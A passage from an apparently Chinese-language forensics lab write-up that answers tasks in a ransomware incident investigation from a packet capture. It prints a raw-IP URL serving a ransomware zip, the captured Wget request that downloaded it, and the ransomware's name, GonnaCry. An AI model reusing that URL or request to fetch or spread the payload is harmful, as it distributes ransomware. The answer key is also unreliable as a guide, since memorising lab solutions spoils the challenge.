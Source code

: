 ```shell
http://ap-south-1.ec2.archive.ubuntu.com/ubuntu/pool/main/p/python3.10/python3.10_3.10.6-1~22.04.2ubuntu1_amd64.deb,http://ap-south-1.ec2.archive.ubuntu.com/ubuntu/pool/main/p/python3.10/libpython3.10-stdlib_3.10.6-1~22.04.2ubuntu1_amd64.deb,http://ap-south-1.ec2.archive.ubuntu.com/ubuntu/pool/main/p/python3.10/python3.10-minimal_3.10.6-1~22.04.2ubuntu1_amd64.deb,http://ap-south-1.ec2.archive.ubuntu.com/ubuntu/pool/main/p/python3.10/libpython3.10-minimal_3.10.6-1~22.04.2ubuntu1_amd64.deb,http://ap-south-1.ec2.archive.ubuntu.com/ubuntu/pool/main/v/vim/vim_8.2.3995-1ubuntu2.4_amd64.deb,http://ap-south-1.ec2.archive.ubuntu.com/ubuntu/pool/main/v/vim/vim-tiny_8.2.3995-1ubuntu2.4_amd64.deb,http://ap-south-1.ec2.archive.ubuntu.com/ubuntu/pool/main/v/vim/vim-runtime_8.2.3995-1ubuntu2.4_all.deb,http://ap-south-1.ec2.archive.ubuntu.com/ubuntu/pool/main/v/vim/xxd_8.2.3995-1ubuntu2.4_amd64.deb,http://ap-south-1.ec2.archive.ubuntu.com/ubuntu/pool/main/v/vim/vim-common_8.2.3995-1ubuntu2.4_all.deb
http://freedomhouse.org/
http://security.ubuntu.com/ubuntu/dists/jammy-security/InRelease
http://security.ubuntu.com/ubuntu/dists/jammy-security/main/binary-amd64/by-hash/SHA256/ec306b867cbab332da874121ce3136550a7f9a936743c1041c22f08f6e5f6eb0
http://security.ubuntu.com/ubuntu/dists/jammy-security/main/binary-amd64/by-hash/SHA256/f87dd0f78353885e2ca3a076c140b4cb8dea439c9e4697662b949af3ecdfc75e
http://security.ubuntu.com/ubuntu/dists/jammy-security/main/cnf/by-hash/SHA256/4d596208dfa7f6067d00b1f8caf4435cdde390a891c62547d339302c978a0363,http://security.ubuntu.com/ubuntu/dists/jammy-security/universe/binary-amd64/by-hash/SHA256/31c71a5183c29e5a698e323fcbb326bad708c4d8fec6f6f4b03091d52725494c,http://security.ubuntu.com/ubuntu/dists/jammy-security/universe/cnf/by-hash/SHA256/75fedcff7f323ba1fd5ba250aa66d41672201ea7eb367e9b7e1eec8e7cac9927
http://security.ubuntu.com/ubuntu/dists/jammy-security/main/i18n/by-hash/SHA256/84b120f9c8d1c1e9223cfc65ceddd5d19568c6bd8aa0d637375af27004fb896f,http://security.ubuntu.com/ubuntu/dists/jammy-security/universe/binary-amd64/by-hash/SHA256/6bdf67e1c6b56dc78ff85924da2ece8e8b2d764dae10351fedd36ae60137e587,http://security.ubuntu.com/ubuntu/dists/jammy-security/universe/i18n/by-hash/SHA256/8482930a283e7c0ecaf92fea95a917a62528ff8177a3ae35d71df0c3d486cf9d,http://security.ubuntu.com/ubuntu/dists/jammy-security/universe/cnf/by-hash/SHA256/2edba9e0d56d87e074af1b0b769b8d7ecf905ecfa9435d1e1da5c18be38da66b
```

在其中就可以看到一个可疑的压缩包文件

```plaintext title="Answer"
http://13.233.179.35/PKCampaign/Targets/Forela/Ransomware2_server.zip
```

## Task 20

> 攻击者用于下载勒索软件的工具 / 实用程序名称和版本是什么？

使用以下筛选器进行查询

```plaintext
ip.addr == 172.31.39.46 && http && ip.addr==13.233.179.35
```

查看 http 请求头的 `user-agent` 参数即可

```plaintext
GET /PKCampaign/Targets/Forela/Ransomware2_server.zip HTTP/1.1
Host: 13.233.179.35
User-Agent: Wget/1.21.2
Accept: */*
Accept-Encoding: identity
Connection: Keep-Alive
```

```plaintext title="Answer"
Wget/1.21.2
```

## Task 21

> 勒索软件的名称是什么？

将传输的压缩包数据提取出来，使用 `binwalk` 进行分析，发现 `README.md` 文件

```plaintext title="Answer"
GonnaCry
```
